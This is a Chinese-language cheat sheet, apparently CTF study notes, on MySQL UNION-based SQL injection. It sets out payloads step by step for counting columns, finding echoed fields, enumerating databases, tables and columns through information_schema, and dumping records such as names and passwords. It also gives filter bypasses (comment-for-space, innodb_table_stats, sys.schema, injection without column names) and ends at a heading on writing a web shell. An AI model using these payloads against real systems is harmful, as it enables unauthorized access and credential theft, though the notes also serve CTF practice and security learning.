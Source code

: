 union注入:
寻找注入点，判断闭合方式，判断列数，进行函数执行回显。


1. 测试当前表的字段数：+url编码为空格
```
id =1 ' order by 1 --+

id =1 ' order by 2 --+
...
id =1 ' order by 5 --+  //若到5报错，则此表有4个字段
```
如果不能使用orderby，则可以使用groupby来进行判断列数。
<https://blog.csdn.net/qq_37232329/article/details/122586495>


2. 测试回显了的字段：
```
id = -1 ' union select 1,2,3,4 --+

id = -1 union select 1,2,3,4
id = -1 union/**/select 1,2,3,4
前报错，后替换回显1,2,3,4
```
3. 回显信息收集
拿到表所在库名，登录用户名，操作系统等。
```
所有库名
select(group_concat(schema_name))from(information_schema.schemata)
所在库名
database()
```

4. 根据库名回显库中表名：
```
union select 1,2,GROUP_CONCAT(table_name),4 from
information_schema.tables
WHERE table_schema='库名'

union select 1,2,3,GROUP_CONCAT(table_name) from
information_schema.tables
WHERE table_schema=database()

group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

5. 根据表名回显表的字段：
```
select 1,2,3,GROUP_CONCAT(column_name) from information_schema.columns 
WHERE table_name='表名'
```

6. 根据表名，字段，回显纪录：
```
select 1,2,3,group_concat(name,passwd,字段) from 表名
```

^
## **绕过**
空格被过滤
空格过滤可以利用/**/代替空格。

注释符被过滤
将后面的单引|号闭合即可。

or 被过滤，orderby、information_schema都不能用。
查表名使用 select group_concat(table_name),2,3,4 from mysql.innodb_table_stats where database_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名

通过无列名注入获取表group_concat(某一字段所有值)。
```
SELECT group_concat(`1`) from (select 1,2 union SELECT * from dept) as t
这里需要多试几次dept表有几个字段。
如两个字段：
SELECT group_concat(b) from (select 1 as a,2 as b union SELECT * from dept) as t
```
ctf：
<https://www.cnblogs.com/hello-there/p/12918265.html>


^
## **联合注入写shell**

